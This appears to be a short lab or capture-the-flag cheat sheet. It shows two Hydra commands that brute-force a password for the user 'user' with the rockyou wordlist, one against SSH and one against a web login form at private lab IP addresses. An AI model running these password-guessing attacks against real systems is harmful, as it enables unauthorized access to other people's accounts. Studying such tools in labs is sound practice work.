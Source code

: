 # Hydra

SSH PW Brute Force user "user"

``` sh
hydra -l user -P /usr/share/wordlists/rockyou.txt ssh://10.10.112.131
```

Web Form Brute Force:

``` sh
hydra -l user -P /usr/share/wordlists/rockyou.txt 10.10.233.243 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V 
```
